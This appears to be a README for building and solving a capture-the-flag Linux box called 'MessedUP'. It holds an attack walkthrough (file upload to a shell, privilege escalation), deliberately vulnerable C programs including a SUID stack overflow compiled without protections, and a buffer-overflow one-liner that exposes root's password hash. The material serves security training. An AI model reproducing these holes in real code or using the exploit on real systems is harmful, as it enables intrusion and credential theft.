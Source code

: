 **Dated:** 12 Jan 2021

**Solution** for the **MessedUP** linux box -  **HackMyVM** site ~ Made and tested in VMWare Workstation
> 1. Avoid rabbit holes
> 1. Connect to FTP (port 8080) as anon user and download/read the file
> 1. Connect to tftp and download 125.zip file
> 1. Extract it
> 1. Portknocking sequence revelaed (8721, 45000, 9191)
> 1. Enumerate the webserver (port 65,000)
> 1. Try running gobuster against it
> 1. Any useful directory found ??? (yes, found -> projects)
> 1. /projects/index.php (Upload Media Center)
> 1. What about arbitary file upload vulnerability for getting RCE / Rev Shell? (uploaded_files)
> 1. Exploit passwordstrength binary (location: /usr/bin/passwordStrengthApp.exe) and then overspill binary (/home/skinny/.reload)
> 1. Become root 

**Name: passwordstrength app**\
On Kali box create vulnerable application by running: `gcc -m32 passwordstrength.c -o passwordstrength.exe`\
Copy the `.exe` to `Debian10 - 32bit`\
Chown it to skinny:skinny & allow all to READ/EXECUTE this.
```c
#include<stdio.h>
#include<string.h>
#include <unistd.h>
#include <stdlib.h>
#include <time.h>

int main ()
{
char *str = NULL;
FILE * fPtr;

printf("Welcome to ***Password Strength Assessment*** Application v01 \nDesigned by: https://grumpygeekwrites.wordpress.com\n");

fPtr = fopen("3l3.txt", "r");

if(fPtr == NULL)
	    {
	 /* Unable to open file hence exit */
	printf("Unable to open file.\n");
	printf("Please check whether file exists and you have read privilege.\n");
	exit(EXIT_FAILURE);	
	    }

else
{
char c;
while((c=fgetc(fPtr))!=EOF)
{
	 printf("%c",c);
}

        fclose(fPtr);
}

printf("\nPlease enter input:");

scanf("%ms",&str);
  
if (str) 
	{
	printf("Your input was:%s\n",str);
	free(str);
	printf("-_____- Hmmmm let me analzye this -_____- \n");
	sleep(1.25);
	int loop=0;
	int upper=15;
	int lower=3;
	int runtime=0;
	srand(time(0));
	runtime=(rand() % (upper - lower + 1)) + lower;
	for (loop=0;loop<=runtime;loop++)
		{
		printf("\nIam tired, let me sleep please **__** %d",loop);
	       	printf("\nAhhh I hate being ... Ahhhhhhhhh, stop it");
		printf("\nLet me try again ... Although I dont have any energy\n\n");	
		}
	
	printf("Iam going off now, sorry to disappoint you ¯_(ツ)_/¯¯_(ツ)_/¯¯_(ツ)_/¯, will try someother time\n");	
	}

else if (str == "I have a laptop and computer in year2020")
	{
	printf("\n WoW!!! here are some of the notes of 'grumpygeek' regarding passwords");
	printf("\nworstpasswordexamples");
	printf("\nweakpassword 1->  password");
	printf("\nweakpassword 2-> newbie");
	printf("\nweakpassword 3-> KBQWW2LTORQW4CQ=");
	printf("\nweakpassord 4-> MNZGSY3LMV2AU===");

	printf("\ngoodpasswordexamples");
	printf("\nstrongpassword 1-> N.CagewasInConAirMovie");
	printf("\nstrongpassword 2-> KNUG6YLJMJAWW2DUMFZDCMBQL5RG653MONDGC43UBI======");
	printf("\nstrongpassword 3-> NFYHA43FMMXHE33DNNZQ====");
	printf("\nstrongpassword 4-> Pakistani Mangoes are great in taste");
	}

else
	{
	printf("Give me some input please, I am not an idiot :-/");
	}
  return 0;
}
```
**Solution**
> 1. strings passwordstrength.exe
> 1. try base32 decoding strings as one of them is a valid password for user skinny.


**Name: overspill app**\
On Kali box create vulnerable application by running: `gcc -fno-stack-protector -z execstack -no-pie -m32 -mpreferred-stack-boundary=2 overspill.c -o overspill.obj`\
Copy the `overspill.obj` to `Debian10 - 32bit`\
Chown it to root:root & give set the SUID bit set.\
"shadow_backup_sensitiveFile" will have the SHA512 hash of root.

```c
#include <stdio.h>                                                                                                                                          
#include <string.h>                                                                                                                                         
#include <stdlib.h>                                                                                                     
#include <sys/types.h>                                                                                                            
#include <unistd.h>                                                                                                                                         
                                
int main()                                                                                                                        
{                                                                             
int temp=0;                            
char userinput[23];                                                                                                                                         
printf("\n*** Welcome to Overspill software v2.0 ~ by MicrooSooft (° ʖ °)*** \n");                                                                                                                   
printf("\nCreation date: ~19Nov2020");                                                           
printf("\nPlease enter your input:");                                                                                                                       
scanf("%s",&userinput);                    
printf("Your input was -> %s\nNice Input, I liked it\nByeBye (｡◕‿◕｡)\n",userinput);                                                                                           


return 0;                                       
}                                               

void read_sensitive_file(void)                                                                   
{                                               
        printf("\nWTF!!! How the hell, did you get into this secret function\n");                                                                                                                  
        setuid(0);                                     
        setgid(0);                                     

        system("/bin/cat shadow_backup_sensitiveFile");
}
```

**Solution**
> 1. strings overspill.obj (can be skipped)
> 1. readelf -s ./overspill.obj | grep read (notedown the address)
> 1. inside python ---> import pwn; pwn.p32(0x<the address); 
> 1. the above command will convert the address into little endian.
> 1. python -c 'print("A"*35+"<Little Endian HEX address of read_sensitive_file")' | ./overspill.obj

**Name: createZIP.py**
```python
import os
import time

loop=0;

while loop <= 125:
    loop_value = str(loop)
    filename = loop_value+'.zip'

    if (loop == 0):
        os.system("zip " +filename+ " notes.txt")

    else:
        time.sleep(1)
        previous_value = loop - 1
        previous_value = str(previous_value)+".zip"
        os.system("zip " +filename+" "+previous_value)
        os.system("rm " +previous_value)

    loop=loop+1
```

**Name: ZIPextractor.py**
```python
import os;
import time;
loop = 125

while loop >= 0:
    time.sleep(0.1)
    filename=str(loop)+'.zip'
    os.system("unzip "+filename)
    os.system("rm "+filename)
    loop = loop -1
```
